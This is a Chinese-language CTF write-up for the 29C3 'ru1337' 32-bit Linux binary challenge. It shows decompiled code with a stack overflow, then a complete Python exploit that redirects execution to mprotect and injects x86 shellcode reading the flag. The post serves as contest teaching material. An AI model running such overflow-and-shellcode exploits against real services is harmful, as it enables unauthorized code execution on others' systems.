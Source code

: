 ```yaml
---
title: 29C3ctf_exp200_ru1337_writeup
author: hellok
layout: post
permalink: /29c3-exp200-ru133/
categories:
  - CTF
  - writeup
format: quote
---
```

ru1337 为32位linux程序。[ru1337][1]

<!--more-->

程序执行：

    D:\nc 94.45.252.242 1024
    ID PASSWORD 1337NESS EVALUATION
    Please enter your username and password
    
    User: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Password: aaaaaaaaaa
    u r not s0 1337zz!!!
    

依据结果我们找到如下函数：

char *_&#95;cdecl main&#95;recv&#95;sub&#95;80487E1()

{

char *result; // eax@1

char s; // &#91;sp+24h&#93; &#91;bp-94h&#93;@1

char v2&#91;8]; // [sp+A4h&#93; &#91;bp-14h&#93;@1

int i; // &#91;sp+ACh&#93; &#91;bp-Ch&#93;@2

memset(v2, 0, 8u);

memset(&s, 0, 8u);

result = mmap(0xBADC0DE, 0x88u, 3, 34, 0, 0);

dest = result;

if ( result != -1 )

{

send(fd, "ID&PASSWORD 1337NESS EVALUATION\nPlease enter your username and password\n\nUser: ", 0x4Fu, 0);

recv(fd, v2, 44u, 0);

for ( i = 0; i <= 7 && v2[i] && v2[i] != 10; ++i )

{

if ( !((*\_&#95;ctype&#95;b\_loc())[v2[i]] & 0&#215;400) )

{

close(fd);

exit(0);

}

}

send(fd, "Password: ", 0xAu, 0);

recv(fd, &s, 128u, 0);

strcpy(dest, v2);

strcpy(dest + 8, &s);

dup2(fd, 0);

dup2(fd, 1);

result = dup2(fd, 2);

}

return result;

}

内存结果如下：

0xBADC0DE

| user |

| 8bytes | passwd |

return-to-lib-c exploit。user 可以覆盖 ebp、retn address 及后面的8个字节。

注意到0x80487d9处有一个 call _mprotect，我们可以把申请到的内存空间 0xbadc000 的属性改为可执行。

于是在栈上构造 mprotect 的参数 mprotect(0xbadc000, 0&#215;88, PROT&#95;EXEC | PROT&#95;READ | PROT_WRITE)，然后把 shellcode 通过 password 写进去，跳过去执行就可以了。

shellcode使用/bin/sh并不能正确输出

于是使用/bin/cat flag

# -*- coding: utf-8 -*-

import struct, time, socket, sys

ip='94.45.252.242'

shellcode = "\x31\xc9\x31\xc0\xb0\x05\x51\x68\x66\x6c\x61\x67\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe2\x89\xd1\x31\xd2\xb2\xff\xcd\x80\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x89\xe1\x31\xd2\xb2\xff\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80"

s = socket.socket(socket.AF&#95;INET, socket.SOCK&#95;STREAM, 0)

s.connect((ip, 1024))

print s.recv(1024)

aaa="A" * 20

aaa+="\x08\xc0\xad\x0b" #ebp 0x0badc000 + 8

aaa+="\xd9\x87\x04\x08" #mprotect_call

aaa+="\x00\xc0\xad\x0b" #arg1 0xbadc000

aaa+="\xff\x00\x00\x00" #参数2 大小

aaa+="\x07\x00\x00\x00" #参数3 添加可执行权限

s.send(aaa)

print s.recv(1024)

bbb="\x90"*4 #

bbb+="\x10\xc0\xad\x0b" #0xbadc010 指向shellcode

bbb+=shellcode

s.send(bbb)

print s.recv(1024)

[<img src="http://www.blue-lotus.net/wp-content/uploads/2012/12/exp200.png" alt="" width="426" height="153" class="alignnone size-full wp-image-302" />][2]

最后提一句，这个 bin 本来不能在栈上执行的，但是 Backtrack 默认情况下没有开 NX（栈保护）。

所以不用mprotect开启E位也可以执行。需要注意用readelf检查属性

同时可以一开始就尝试用\x41 %%%%等暴力尝试。减少读代码时间。

 [1]: http://www.blue-lotus.net/wp-content/uploads/2012/12/ru1337.rar
 [2]: http://www.blue-lotus.net/wp-content/uploads/2012/12/exp200.png